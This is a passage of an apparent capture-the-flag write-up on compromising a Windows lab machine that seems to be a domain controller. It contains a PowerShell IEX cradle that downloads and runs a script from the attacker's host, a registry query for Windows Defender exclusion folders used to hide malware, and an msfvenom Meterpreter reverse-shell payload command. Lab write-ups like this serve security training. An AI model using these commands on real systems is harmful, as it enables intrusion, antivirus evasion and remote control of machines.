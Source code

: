 https://github.com/JustinGrote/PoshNmap

<img src="https://i.imgur.com/oZB4dPN.png"/>

After transferring if we'll try running the powershell script, it won't allow us as it's disable to run scripts

<img src="https://i.imgur.com/vo5mP8i.png"/>

We can try downloading it through `IEX` which imports the script in the memory 

```powershell
IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.56:2222/powershell-nmap.ps1')

```

<img src="https://i.imgur.com/tsbKS0n.png"/>

<img src="https://i.imgur.com/L8We7sd.png"/>

The ports that it shows are dns,smb,winrm and ldap which could mean this maybe a domain controller, I wasn't able to specify the script to scan port 88 so I moved on

In Users directory we can see few users but we don't have permissions to view the contents

<img src="https://i.imgur.com/R7mAIie.png"/>

Going into `C` drive we see a folder named `Utils` it shows that doesn't have any files

<img src="https://i.imgur.com/DIGnTxd.png"/>

On viewing the hidden files with `dir -Force` we can see a ini file

<img src="https://i.imgur.com/LOE2p1e.png"/>

Which shows that it  windows defender doesn't check this directory for malicious files maybe ,whitelisted directory can also be found by looking at the defender's exlcusioin key

https://petri.com/microsoft-defender-exclusions-list-windows-10/

```powershell
reg query "HKLM\SOFTWARE\Microsoft\Windows Defender\Exclusions" /s

```

<img src="https://i.imgur.com/EGKXjtI.png"/>

so first we need to generate a `msfvenom` payload for `meterpreter`

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=2222 -f exe > shell.exe
```
 
 <img src="https://i.imgur.com/4XZh9Aw.png"/>



